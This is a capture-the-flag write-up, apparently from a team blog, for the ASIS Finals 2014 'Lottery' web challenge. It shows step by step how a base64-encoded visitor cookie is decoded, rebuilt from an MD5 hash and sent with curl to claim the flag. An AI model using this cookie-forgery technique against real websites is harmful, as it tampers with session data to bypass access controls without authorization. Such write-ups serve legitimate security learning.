 ```yaml
---
layout: post
title: "ASIS CTF Finals Lottery"
date: 2014-10-13 15:08:14 -0400
author: [barrebas]
comments: true
categories: [asis]
---
```


### Solved by barrebas

Lottery was a 100 point web challenge in the ASIS Finals CTF. The description only said 'Go here: http://asis-ctf.ir:12437'. That webpage was mostly non-functional, but said that the 1234567890th visitor would win a *prize*. Gee, I wonder what that is? My browser informed me that there were no cookies, but I wasn't convinced.

![](/images/2014/asis-finals/lottery/01.png)

I turned to ```curl```. Luckily, curl informed me that there was indeed a cookie been set. A cookie named 'Visitor', no less:

![](/images/2014/asis-finals/lottery/02.png)

The value looked like base64 so I decoded it:

```
$ echo -ne 'MTM4NjozNjM3NjNlNWMzZGMzYTY4YjM5OTA1OGMzNGFlY2YyYw==' |base64 -d
1386:363763e5c3dc3a68b399058c34aecf2c
```

Hmm. I figured that first number was a visitor number. What could the second string be? MD5 maybe?

```
$ echo -ne 1386 |md5sum
363763e5c3dc3a68b399058c34aecf2c  -
```

Spot on. It's now easy to fake the right cookie:

```
$ echo -ne 1234567890 |md5sum
e807f1fcf82d132f9bb018ca6738a19f  -
$ echo -ne '1234567890:e807f1fcf82d132f9bb018ca6738a19f' |base64
MTIzNDU2Nzg5MDplODA3ZjFmY2Y4MmQxMzJmOWJiMDE4Y2E2NzM4YTE5Zg==
```

And feed it into curl:

```
$ curl -v http://asis-ctf.ir:12437/ --cookie "Visitor=MTIzNDU2Nzg5MDplODA3ZjFmY2Y4MmQxMzJmOWJiMDE4Y2E2NzM4YTE5Zg=="
* About to connect() to asis-ctf.ir port 12437 (#0)
*   Trying 87.107.124.12...
* connected
* Connected to asis-ctf.ir (87.107.124.12) port 12437 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.26.0
> Host: asis-ctf.ir:12437
> Accept: */*
> Cookie: Visitor=MTIzNDU2Nzg5MDplODA3ZjFmY2Y4MmQxMzJmOWJiMDE4Y2E2NzM4YTE5Zg==
>
...snip...
Google+"></a> </div></div><div class="data-wrapper"><p class="title">The 1234567890 th visitor, the prize awarded.</p><div class="content">Anyone who has visited our site is the 1234567890 th Special prizes are awarded. <br/>the flag is: ASIS_9f1af649f25108144fc38a01f8767c0c</div></div><div class="footer"><div class="p
```

The flag is ```ASIS_9f1af649f25108144fc38a01f8767c0c```. Easy!


